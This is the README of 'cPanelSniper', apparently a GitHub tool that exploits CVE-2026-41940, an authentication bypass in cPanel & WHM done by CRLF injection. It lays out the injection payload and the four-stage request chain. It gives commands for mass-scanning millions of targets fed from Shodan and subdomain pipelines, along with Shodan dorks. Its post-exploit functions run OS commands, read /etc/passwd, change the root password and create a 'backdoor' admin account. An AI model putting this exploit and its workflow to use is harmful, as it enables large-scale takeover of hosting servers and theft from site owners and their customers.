

# cPanelSniper

<p align="center">
  
</p>

<p align="center">
  <a href="https://www.python.org/"></a>
  <a href="https://nvd.nist.gov/vuln/detail/CVE-2026-41940"></a>
  
  
  
  <a href="https://twitter.com/ynsmroztas"></a>
</p>

<p align="center">
  <b>CVE-2026-41940 — cPanel & WHM Authentication Bypass via Session-File CRLF Injection</b><br>
  4-stage exploit chain · Interactive WHM Shell · <b>TRUE STABLE for 10M+ targets</b> · Zero memory usage · stdlib only
</p>

---

## Overview

**cPanelSniper** is a focused exploitation framework for **CVE-2026-41940**, a critical authentication bypass vulnerability affecting cPanel & WHM. The vulnerability allows unauthenticated remote attackers to gain root-level WHM access by injecting CRLF sequences into the session file via the `Authorization` HTTP header — without any valid credentials.

- **CVSS Score:** 10.0 (Critical)
- **In-the-wild exploitation:** Confirmed (April 2026)
- **Affected installs:** ~70 million domains running cPanel & WHM
- **No dependencies:** Pure Python stdlib — no pip, no requests, no external packages

> **For authorized penetration testing and bug bounty programs only.**

---

## ⚡ TRUE STABLE VERSION

**This version is optimized for scanning 10,000,000+ targets with ZERO memory usage.**

### What Was Fixed

| Problem | Original Version | Fixed Version |
|---------|----------------|---------------|
| **Memory Usage** | Loads all targets into RAM | Streams targets line-by-line (0 memory) |
| **10M Targets** | OOM → Killed ❌ | Completes successfully ✅ |
| **Resume** | Not supported | `--resume` flag |
| **Progress** | No ETA | Real-time ETA + rate + stats |
| **Results** | Saved only at end | Saved every 60s (configurable) |

### Key Features

- **Streaming architecture** - Process 10M+ targets without loading into memory
- **Zero OOM crashes** - Even with very large target lists
- **Auto-resume** - Continue from where you stopped with `--resume`
- **Real-time progress** - ETA, scan rate, error tracking
- **Periodic saves** - Results auto-saved to prevent data loss
- **Pipeline ready** - Works seamlessly with `subfinder`, `httpx`, `shodan`

---

## How It Works

The root cause lives in `Session.pm`: the `saveSession()` function calls `filter_sessiondata()` **after** writing the session file to disk. This means CRLF characters embedded in the `Authorization: Basic` header value are written verbatim into the session file, injecting attacker-controlled fields before sanitization occurs.

```
Normal flow:
  POST /login/ → filter_sessiondata() → write session → auth check

Vulnerable flow:
  POST /login/ → write session (CRLF payload injected) → filter_sessiondata() → auth check reads poisoned file
```

### The CRLF Payload

The `Authorization: Basic` value decodes to:

```
root:x
successful_internal_auth_with_timestamp=9999999999
user=root
tfa_verified=1
hasroot=1
```

These fields are written directly into the session file on disk. When read back, cPanel treats the session as a fully authenticated root session.

### 4-Stage Exploit Chain

```
┌─────────────────────────────────────────────────────────────┐
│  Stage 0 — Canonical Hostname Discovery                     │
│  GET /openid_connect/cpanelid → 307 → real hostname         │
├─────────────────────────────────────────────────────────────┤
│  Stage 1 — Mint Preauth Session                             │
│  POST /login/?login_only=1  (wrong creds)                   │
│  ← 401 + whostmgrsession cookie                             │
├─────────────────────────────────────────────────────────────┤
│  Stage 2 — CRLF Injection                                   │
│  GET / + Cookie: session + Authorization: Basic <payload>   │
│  cpsrvd writes CRLF fields into session file                │
│  ← 307 Location: /cpsessXXXXXXXXXX/...                     │
├─────────────────────────────────────────────────────────────┤
│  Stage 3 — Propagate (do_token_denied gadget)               │
│  GET /scripts2/listaccts                                    │
│  Triggers raw→cache flush — injected fields become active   │
│  ← 401 Token denied (expected)                              │
├─────────────────────────────────────────────────────────────┤
│  Stage 4 — Verify WHM Root Access                           │
│  GET /cpsessXXXXXXXXXX/json-api/version                     │
│  ← 200 {"version":"11.x.x.x","result":1}  = PWNED          │
└─────────────────────────────────────────────────────────────┘
```

---

## Affected Versions

| Branch | Vulnerable | Patched |
|--------|-----------|---------|
| 110.x | ≤ 11.110.0.96 | **11.110.0.97** |
| 118.x | ≤ 11.118.0.62 | **11.118.0.63** |
| 126.x | ≤ 11.126.0.53 | **11.126.0.54** |
| 132.x | ≤ 11.132.0.28 | **11.132.0.29** |
| 134.x | ≤ 11.134.0.19 | **11.134.0.20** |
| 136.x | ≤ 11.136.0.4  | **11.136.0.5**  |

---

## Installation

```bash
git clone https://github.com/44pie/cpsniper
cd cpsniper
python3 cPanelSniper.py --help
```

No pip install required. Pure Python 3.8+ stdlib only.

---

## Usage

### Basic Scan

```bash
# Single target — scan only
python3 cPanelSniper.py -u https://target.com:2087

# Single target — interactive shell after bypass
python3 cPanelSniper.py -u https://target.com:2087 --action shell

# Large target list — 10M+ targets (TRUE STABLE)
python3 cPanelSniper.py -l targets.txt -t 50 -o results.json

# Resume interrupted scan
python3 cPanelSniper.py -l targets.txt -t 50 -o results.json --resume
```

### Post-Exploit Actions

```bash
# List all cPanel accounts on the server
python3 cPanelSniper.py -u https://target.com:2087 --action list

# Execute OS command
python3 cPanelSniper.py -u https://target.com:2087 --action cmd --cmd "id;whoami;uname -a"
python3 cPanelSniper.py -u https://target.com:2087 --action cmd --cmd "ls /home"
python3 cPanelSniper.py -u https://target.com:2087 --action cmd --cmd "cat /etc/passwd"

# Get server info (hostname, load, disk, MySQL host)
python3 cPanelSniper.py -u https://target.com:2087 --action info

# Get cPanel version
python3 cPanelSniper.py -u https://target.com:2087 --action version

# Change root password
python3 cPanelSniper.py -u https://target.com:2087 --action passwd --passwd 'NewPass@2026!'

# Interactive WHM shell
python3 cPanelSniper.py -u https://target.com:2087 --action shell
```

### Pipelines (TRUE STABLE for Large Lists)

```bash
# subfinder → httpx → save to file → scan 10M+ targets
subfinder -d target.com -silent | \
  httpx -silent -ports 2087,2086 -threads 50 > targets.txt
python3 cPanelSniper.py -l targets.txt -t 50 -o results.json

# From scope list - handle millions of domains
cat scope.txt | \
  httpx -silent -ports 2087,2086 -threads 100 > targets.txt
python3 cPanelSniper.py -l targets.txt -t 50 -o results.json --resume

# Shodan results - massive scan
shodan search --fields ip_str,port 'title:"WHM Login"' | \
  awk '{print "https://"$1":"$2}' > targets.txt
python3 cPanelSniper.py -l targets.txt -t 30 -o shodan_results.json

# stdin pipe - for small lists only (<100K)
echo "https://target.com:2087" | python3 cPanelSniper.py

# Multiple sources combined → large scale scan
{ subfinder -d target.com -silent; cat extra.txt; } | \
  httpx -silent -ports 2087 > all_targets.txt
python3 cPanelSniper.py -l all_targets.txt -t 50 -o results.json --resume
```

### TRUE STABLE Best Practices

For scanning **10M+ targets**:

1. **Always save to file first** - Don't pipe directly for large lists
   ```bash
   # GOOD - works with 10M+ targets
   httpx ... > targets.txt
   python3 cPanelSniper.py -l targets.txt -t 50 -o results.json

   # BAD - will crash with large lists
   httpx ... | python3 cPanelSniper.py
   ```

2. **Use appropriate thread count**
   - 10-20 threads: 100K targets
   - 30-50 threads: 1M-10M targets
   - 50-100 threads: 10M+ targets

3. **Enable auto-resume** for long scans
   ```bash
   python3 cPanelSniper.py -l targets.txt -t 50 -o results.json --resume
   ```
   If interrupted, just run again with `--resume`

4. **Monitor progress**
   - Real-time ETA shown
   - Results saved every 60 seconds
   - Ctrl+C preserves all findings

---

## Interactive WHM Shell

After a successful bypass, the `--action shell` flag drops into an interactive prompt:

```
════════════════════════════════════════════════════════════
  WHM Shell — target.com
  Version: CVE-2026-41940 | Auth: CRLF bypass
  Type 'help' for commands, 'exit' to quit
════════════════════════════════════════════════════════════

mitsec@target.com ▶ id
  uid=0(root) gid=0(root) groups=0(root)

mitsec@target.com ▶ accounts
  [cPanel Accounts]  target.com:2087 (47 users)
    user01               domain: example.com    email: admin@example.com
    user02               domain: shop.com       email: info@shop.com
    ...

mitsec@target.com ▶ cat /etc/passwd
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  ...

mitsec@target.com ▶ info
  [Server Info]  https://target.com:2087
  hostname: srv01.target.com
  load: 0.72 / 0.66 / 0.69
  version: 11.130.0.6

mitsec@target.com ▶ addadmin mitsec P@ss2026!
  [BACKDOOR ADMIN CREATED]
  Target   : https://target.com:2087
  Username : mitsec
  Password : P@ss2026!
  Profile  : super_admin

mitsec@target.com ▶ exit
```

### Shell Commands

| Command | Description |
|---------|-------------|
| `id` / `whoami` | Show UID and hostname |
| `hostname` | Get server hostname |
| `version` | cPanel version info |
| `info` | Load, disk, MySQL host, version |
| `accounts` | List all cPanel user accounts |
| `cat <path>` | Read file content |
| `ls [path]` | List directory |
| `exec <cmd>` | Execute OS command |
| `addadmin <user> <pass>` | Create backdoor WHM admin |
| `passwd <pass>` | Change root password |
| `api <endpoint> [k=v ...]` | Raw WHM JSON API call |
| `help` | Show all commands |
| `exit` | Exit shell |

---

## CLI Reference

```
usage: cPanelSniper.py [-h] [-u URL] [-l LIST] [--hostname HOSTNAME]
                       [-t THREADS] [--timeout TIMEOUT] [--resume]
                       [-o OUTPUT] [--no-color] [--save-interval N]

Target:
  -u, --url URL          Single target URL (e.g. https://host:2087)
  -l, --list LIST        File with URLs (one per line)
  --hostname HOSTNAME    Override canonical Host header (auto-discovered)

Scan:
  -t, --threads N        Concurrent threads (default: 20)
  --timeout N            Request timeout seconds (default: 15)
  --resume               Resume from previous scan (skip processed targets)

Output:
  -o, --output FILE      Save results to JSON file
  --no-color             Disable ANSI colors
  --save-interval N      Save results every N seconds (default: 60)
```

---

## Shodan Dorks

```
title:"WHM Login"
title:"WebHost Manager" port:2087
product:"cPanel" port:2087
http.title:"cPanel" port:2083
ssl.cert.subject.cn:"cPanel" port:2087
```

---

## Output Example

```
   ██████╗██████╗  █████╗ ███╗  ██╗███████╗██╗
  ██╔════╝██╔══██╗██╔══██╗████╗ ██║██╔════╝██║
  ...

  CVE-2026-41940 — cPanel & WHM Auth Bypass via CRLF Injection
  4-stage: preauth → CRLF inject → propagate → verify → post-exploit
  In-The-Wild | CVSS 10.0 | By Mitsec (@ynsmroztas)

  Configuration:
   Targets  : 1
   Threads  : 10
   Timeout  : 15s
   Action   : list

14:46:22 [SCAN] Starting 4-stage exploit chain... https://target.com:2087
14:46:23 [INFO] Canonical hostname discovered: srv01.target.com
14:46:23 [STEP] Stage 1/4 — Minting preauth session...
14:46:23 [  OK] Stage1: preauth session = :QFB4o8XENBqlr6U1...
14:46:23 [STEP] Stage 2/4 — CRLF injection via Authorization header...
14:46:24 [  OK] Stage2: HTTP 307 → token=/cpsess8493537756
14:46:24 [STEP] Stage 3/4 — Firing do_token_denied gadget (raw→cache)...
14:46:25 [  OK] Stage3: HTTP 401 — do_token_denied gadget fired
14:46:25 [STEP] Stage 4/4 — Verifying WHM root access...
14:46:26 [PWND] CVE-2026-41940 CONFIRMED — WHM root access!
14:46:26 [PWND]   Token    : /cpsess8493537756
14:46:26 [PWND]   Version  : 11.130.0.6
14:46:26 [PWND]   API URL  : https://target.com:2087/cpsess8493537756/json-api/version
14:46:26 [ API] Running post-exploit action: list
14:46:27 [ API] listaccts → HTTP 200

  [cPanel Accounts]  target.com:2087 (47 accounts)
    client01    domain: client01.com    email: admin@client01.com
    client02    domain: client02.net    email: info@client02.net
    ...

══════════════════════════════════════════════════════════════════════
  cPanelSniper — Scan Complete
  Time: 5.8s  ·  Targets: 1

  ⚡ 1 VULNERABLE TARGET(S)

  Target   : https://target.com:2087
  Version  : 11.130.0.6
  Token    : /cpsess8493537756
  API URL  : https://target.com:2087/cpsess8493537756/json-api/version
══════════════════════════════════════════════════════════════════════
```

---

## Technical Details

### Session File Injection

The injected `Authorization: Basic` value (base64-decoded) contains CRLF sequences that become newlines in the cPanel session file:

```
root:x\r\n
successful_internal_auth_with_timestamp=9999999999\r\n
user=root\r\n
tfa_verified=1\r\n
hasroot=1
```

cPanel's session reader parses these as legitimate session fields, granting full root WHM access.

### Stage 3 — The do_token_denied Gadget

The critical and often-overlooked step: after the CRLF injection (Stage 2), the poisoned session data exists only in the **raw session file**. A request to `/scripts2/listaccts` triggers the internal `do_token_denied` handler, which flushes the raw session data into the session **cache**. Without this flush, Stage 4 would return a 403.

### Session Token Extraction

```
Set-Cookie: whostmgrsession=%3aSESSION_NAME%2cOB_HEX; ...
                              ^              ^
                              |              +-- ob hash (stripped)
                              +-- session name (used for injection)
```

The session name (before `%2C`) is extracted and used as the cookie value for subsequent requests.

---

## References

- [watchTowr Labs — CVE-2026-41940 Technical Analysis](https://labs.watchtowr.com/the-internet-is-falling-down-falling-down-falling-down-cpanel-whm-authentication-bypass-cve-2026-41940/)
- [cPanel Security Advisory](https://support.cpanel.net/hc/en-us/articles/40073787579671-cPanel-WHM-Security-Update-04-28-2026)
- [NVD — CVE-2026-41940](https://nvd.nist.gov/vuln/detail/CVE-2026-41940)
- [Hadrian Blog — CVE-2026-41940 Analysis](https://hadrian.io/blog/cve-2026-41940-a-critical-authentication-bypass-in-cpanel)
- [Nuclei Template — CVE-2026-41940](https://cloud.projectdiscovery.io/library/CVE-2026-41940)

---

## Disclaimer

> This tool is intended for **authorized security testing** and **bug bounty programs only**. Unauthorized access to computer systems is illegal. The author assumes no liability and is not responsible for any misuse or damage caused by this tool. Always obtain proper written authorization before testing.

---

## Author

**Mitsec** — [@ynsmroztas](https://twitter.com/ynsmroztas)

- 🏆 Top Hacker — Intigriti
- 🐛 2,430+ vulnerabilities disclosed
- 💀 1,100+ P1 Critical findings
- 🏅 100+ Hall of Fame recognitions

---

<p align="center">
  Made with ❤️ by <a href="https://twitter.com/ynsmroztas">@ynsmroztas</a>
</p>
